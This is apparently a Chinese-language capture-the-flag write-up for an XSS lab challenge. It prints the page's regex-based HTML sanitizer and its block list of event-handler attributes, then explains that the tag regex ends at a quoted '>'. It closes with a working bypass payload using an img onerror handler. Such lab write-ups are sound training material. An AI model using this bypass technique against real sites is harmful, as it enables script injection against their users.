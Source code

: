 ## XSS challenge2

1.进去靶场有个输入框

![image-20250204184558451](https://github.com/Martins555666/Hackinghub-writeups/blob/main/image/image-20250204184558451.png)

2.尝试输入<u>111</u>,但并没有显示在页面中



3.f12分析下js，以下为js全部代码

<script>
    const input = document.getElementById('input');
    const getInput = () => input.value;
    const mainUrl = location.href.split('?')[0];
    const iframe = document.getElementById('ifr');
    input.value = new URL(location).searchParams.get('xss');


    <textarea autofocus oninput=process() id=input></textarea><br>
    
    <script>
        const input = document.getElementById('input');
        const getInput = () => input.value;
        const mainUrl = location.href.split('?')[0];
        const iframe = document.getElementById('ifr');
        input.value = new URL(location).searchParams.get('xss');
        
    function sanitize(input) {
        const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
        const COMMENT_REGEX = /<!--.*?-->/gmi;
        const END_TAG_REGEX = /^<\//;
        // Taken from XSS Cheat Sheet by Portswigger
        const FORBIDDEN_ATTRS = ["onactivate","onafterprint","onanimationcancel","onanimationend","onanimationiteration","onanimationstart","onauxclick","onbeforeactivate","onbeforecopy","onbeforecut","onbeforedeactivate","onbeforepaste","onbeforeprint","onbeforeunload","onbegin","onblur","onbounce","oncanplay","oncanplaythrough","onchange","onclick","oncontextmenu","oncopy","oncut","ondblclick","ondeactivate","ondrag","ondragend","ondragenter","ondragleave","ondragover","ondragstart","ondrop","onend","onended","onerror","onfinish","onfocus","onfocusin","onfocusout","onhashchange","oninput","oninvalid","onkeydown","onkeypress","onkeyup","onload","onloadeddata","onloadedmetadata","onloadend","onloadstart","onmessage","onmousedown","onmouseenter","onmouseleave","onmousemove","onmouseout","onmouseover","onmouseup","onpageshow","onpaste","onpause","onplay","onplaying","onpointerover","onpointerdown","onpointerenter","onpointerleave","onpointermove","onpointerout","onpointerup","onpointerrawupdate","onpopstate","onreadystatechange","onrepeat","onreset","onresize","onscroll","onsearch","onseeked","onseeking","onselect","onstart","onsubmit","ontimeupdate","ontoggle","ontouchstart","ontouchend","ontouchmove","ontransitioncancel","ontransitionend","ontransitionrun","onunhandledrejection","onunload","onvolumechange","onwaiting","onwheel"];
        const FORBIDDEN_TAGS = ["script", "style", "noscript", "template", "svg", "math"];
        
        let sanitized = input;
    
        sanitized = sanitized.replace(COMMENT_REGEX, '');
        sanitized = sanitized.replace(TAG_REGEX, (wholeTag, tagName, attributes) => {
            tagName = tagName.toLowerCase();
            
            if (FORBIDDEN_TAGS.includes(tagName)) return '';
            
            if (END_TAG_REGEX.test(wholeTag)) {
                return `</${tagName}>`;
            }
            for (let attr of FORBIDDEN_ATTRS) {
                attributes = attributes.replace(new RegExp(attr + '\\s*=', 'gi'), '_ROBUST_XSS_PROTECTION_=');
            }
            
            return `<${tagName}${attributes}>`
        });
        return sanitized;
        
    }
    
    function process() {
        const input = getInput();
        history.replaceState(null, null,  '?xss=' + encodeURIComponent(input));
        
        const div = document.createElement('div');
        div.innerHTML = sanitize(input);
        // document.body.appendChild(div)
    }
    
    process();
    </script>
        
        



 4.发现主要函数为**process（）**函数，函数首先对输入的语句进行URL编码，然后把语句放到**sanitize(input)**函数中，看是否为正常的语句，所以我们主要就是绕过 sanitize(input)函数中的过滤。



5.以下分析sanitize函数

```
function sanitize(input) {
    const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
    const COMMENT_REGEX = /<!--.*?-->/gmi;
    const END_TAG_REGEX = /^<\//;
    // Taken from XSS Cheat Sheet by Portswigger
    const FORBIDDEN_ATTRS = ["onactivate","onafterprint","onanimationcancel","onanimationend","onanimationiteration","onanimationstart","onauxclick","onbeforeactivate","onbeforecopy","onbeforecut","onbeforedeactivate","onbeforepaste","onbeforeprint","onbeforeunload","onbegin","onblur","onbounce","oncanplay","oncanplaythrough","onchange","onclick","oncontextmenu","oncopy","oncut","ondblclick","ondeactivate","ondrag","ondragend","ondragenter","ondragleave","ondragover","ondragstart","ondrop","onend","onended","onerror","onfinish","onfocus","onfocusin","onfocusout","onhashchange","oninput","oninvalid","onkeydown","onkeypress","onkeyup","onload","onloadeddata","onloadedmetadata","onloadend","onloadstart","onmessage","onmousedown","onmouseenter","onmouseleave","onmousemove","onmouseout","onmouseover","onmouseup","onpageshow","onpaste","onpause","onplay","onplaying","onpointerover","onpointerdown","onpointerenter","onpointerleave","onpointermove","onpointerout","onpointerup","onpointerrawupdate","onpopstate","onreadystatechange","onrepeat","onreset","onresize","onscroll","onsearch","onseeked","onseeking","onselect","onstart","onsubmit","ontimeupdate","ontoggle","ontouchstart","ontouchend","ontouchmove","ontransitioncancel","ontransitionend","ontransitionrun","onunhandledrejection","onunload","onvolumechange","onwaiting","onwheel"];
    const FORBIDDEN_TAGS = ["script", "style", "noscript", "template", "svg", "math"];
    
    let sanitized = input;

    sanitized = sanitized.replace(COMMENT_REGEX, '');
    sanitized = sanitized.replace(TAG_REGEX, (wholeTag, tagName, attributes) => {
        tagName = tagName.toLowerCase();
        
        if (FORBIDDEN_TAGS.includes(tagName)) return '';
        
        if (END_TAG_REGEX.test(wholeTag)) {
            return `</${tagName}>`;
        }
        for (let attr of FORBIDDEN_ATTRS) {
            attributes = attributes.replace(new RegExp(attr + '\\s*=', 'gi'), '_ROBUST_XSS_PROTECTION_=');
        }
        
        return `<${tagName}${attributes}>`
    });
    return sanitized;
    
}
```



其中代码首先对script等一系列标签进行了过滤，发现img标签并没有被过滤，其次对几乎所有的on事件都进行过滤，所以我们不能直接从绕on事件上入手，在正则匹配中可以发现问题

```
 const TAG_REGEX = /<\/?(\w*)([^>]*)>/gmi;
```

重要匹配到两个尖括号就会截取下来，例：

```
<img id=">"> 就会识别为 <img id=">
```

所以我们就可以利用该漏洞进行绕过：

```
<img src=">" onerror=alert(1)>
```

